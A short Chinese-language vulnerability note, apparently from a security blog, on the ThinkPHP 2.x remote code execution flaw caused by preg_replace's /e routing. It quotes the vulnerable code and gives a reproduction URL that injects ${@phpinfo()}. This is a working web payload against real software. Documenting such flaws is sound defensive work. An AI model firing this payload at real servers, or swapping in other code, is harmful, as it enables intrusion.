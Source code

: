 ```yaml
---
title: Thinkphp 2.x rce
date: 2021-11-23 15:43:09
author: sec
---
```

# Thinkphp 2.x rce

# Thinkphp简介

Thinkphp 是一个开源的，快速、简单的面向对象的轻量级PHP开发框架

# 漏洞影响版本

Thinkphp 2.x

# 漏洞概述

ThinkPHP 2.x版本中，使用preg_replace的/e模式匹配路由：`$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));`
导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。
ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。

# 漏洞复现

```url
http://{{BaseUrl}}/index.php?s=/a/a/a/${@phpinfo()}
```
![在这里插入图片描述](img/af3016f5c90b4dcd97e84b87f30167f4.png)


